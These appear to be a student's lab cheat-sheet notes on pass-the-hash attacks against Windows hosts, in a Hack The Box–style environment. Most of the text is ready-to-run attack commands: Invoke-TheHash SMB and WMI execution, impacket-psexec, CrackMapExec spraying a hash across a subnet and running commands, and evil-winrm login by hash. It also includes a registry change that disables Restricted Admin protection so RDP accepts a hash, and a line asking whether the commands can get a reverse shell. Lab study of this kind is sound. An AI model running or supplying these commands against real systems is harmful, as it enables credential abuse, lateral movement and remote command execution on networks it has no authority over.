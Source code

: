 ##### Invoke-TheHash SMB
```powershell
cd C:\tools\Invoke-TheHash\

Import-Module .\Invoke-TheHash.psd1

Invoke-SMBExec -Target <target> -Domain <domain> -Username <user> -Hash <hash> -Command "command" -Verbose
```

Get a reverse shell with the command?

##### Invoke-TheHash WMI
```powershell
Import-Module .\Invoke-TheHash.psd1
```

```powershell
Invoke-WMIExec -Target DC01 -Domain inlanefreight.htb -Username julio -Hash 64F12CDDAA88057E06A81B54E73B949B -Command "command"
```

### Impacket PtH (Linux)
```shell
impacket-psexec administrator@10.129.201.126 -hashes :30B3783CE2ABF1AF70F77D0660CF3453
```
[impacket-wmiexec](https://github.com/SecureAuthCorp/impacket/blob/master/examples/wmiexec.py)
[impacket-atexec](https://github.com/SecureAuthCorp/impacket/blob/master/examples/atexec.py)
[impacket-smbexec](https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbexec.py)

### CrackMapExec PtH
```shell
 crackmapexec smb 172.16.1.0/24 -u Administrator -d localhost -H 30B3783CE2ABF1AF70F77D0660CF3453
```
##### Authenticate to each host in subnet?
Add the `--local-auth`
##### Command Execution 
```shell
crackmapexec smb 10.129.201.126 -u Administrator -d . -H 30B3783CE2ABF1AF70F77D0660CF3453 -x whoami
```
### evil-winrm
```shell
 evil-winrm -i 10.129.201.126 -u Administrator -H 30B3783CE2ABF1AF70F77D0660CF3453
```
Need to include domain for domain accounts
administrator@inlanefreight.htb

### #PtH with RDP Linux 

PtH to gain GUI access
Restricted Admin Mode, needs to be enabled.

```cmd
reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
```
